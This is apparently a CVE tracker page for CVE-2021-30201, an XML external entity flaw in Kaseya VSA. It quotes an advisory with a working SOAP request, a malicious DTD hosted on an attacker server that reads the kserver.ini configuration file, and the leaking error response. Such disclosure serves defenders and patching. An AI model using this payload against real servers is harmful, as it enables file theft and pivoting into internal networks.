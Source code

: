 ### [CVE-2021-30201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-30201)
![](https://img.shields.io/static/v1?label=Product&message=n%2Fa&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=n%2Fa%20&color=brightgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brightgreen)

### Description

The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker. Detailed description Given the following request: ``` POST /vsaWS/KaseyaWS.asmx HTTP/1.1 Content-Type: text/xml;charset=UTF-8 Host: 192.168.1.194:18081 Content-Length: 406 <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:kas="KaseyaWS"> <soapenv:Header/> <soapenv:Body> <kas:PrimitiveResetPassword> <!--type: string--> <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM "http://192.168.1.170:8080/oob.dtd"><data>&send;</data>]]> </kas:XmlRequest> </kas:PrimitiveResetPassword> </soapenv:Body> </soapenv:Envelope> ``` And the following XML file hosted at http://192.168.1.170/oob.dtd: ``` <!ENTITY % file SYSTEM "file://c:\\kaseya\\kserver\\kserver.ini"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error; ``` The server will fetch this XML file and process it, it will read the file c:\\kaseya\\kserver\\kserver.ini and returns the content in the server response like below. Response: ``` HTTP/1.1 500 Internal Server Error Cache-Control: private Content-Type: text/xml; charset=utf-8 Date: Fri, 02 Apr 2021 10:07:38 GMT Strict-Transport-Security: max-age=63072000; includeSubDomains Connection: close Content-Length: 2677 <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\r\n\r\nSystem.Xml.XmlException: Fragment identifier '######################################################################## # This is the configuration file for the KServer. # Place it in the same directory as the KServer executable # A blank line or new valid section header [] terminates each section. # Comment lines start with ; or # ######################################################################## <snip> ``` Security issues discovered --- * The API insecurely resolves external XML entities * The API has an overly verbose error response Impact --- Using this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.

### POC

#### Reference
- https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021

#### Github
No PoCs found on GitHub currently.

